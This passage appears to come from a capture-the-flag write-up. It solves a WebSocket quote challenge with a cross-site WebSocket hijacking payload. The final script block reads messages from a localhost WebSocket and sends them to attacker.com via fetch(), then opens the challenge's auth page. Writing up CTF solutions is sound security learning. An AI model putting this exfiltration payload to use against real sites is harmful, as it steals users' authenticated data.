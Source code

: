 ```js
				let [quote, author] = msg.data.split(' ~');
				author = author ? author : "GreyCat";
				$("#quote").html(quote);
				$("#author").html(author);
			} else {
				alert("wtf?");
			}
		};

		socket.onclose = function(msg) {
			return;
		};
	} catch (ex) {
		log(ex);
	}
}
```

Let's cut down on some unecessary bloat to make our template shorter.

```js
function connect() {
	var host = "ws://localhost:7070/quote";
	socket = new WebSocket(host);
	socket.onopen = function(msg) {
		console.log(msg);
		socket.send("getquote");
		// alert("连接成功！");
	};

	socket.onmessage = function(msg) {
		console.log(msg.data);
	};
}
```

```html
<script>
	function connect() {
		var host = "ws://localhost:7070/quote";
		socket = new WebSocket(host);
		socket.onopen = function(msg) {
			console.log(msg);
			socket.send("getquote");
			// alert("连接成功！");
		};

		socket.onmessage = function(msg) {
			fetch("http://attacker.com/?"+msg.data)
		};
	}

	window.open('http://challs.nusgreyhats.org:12326/auth');
	window.open('http://challs.nusgreyhats.org:12326/');
</script>
```
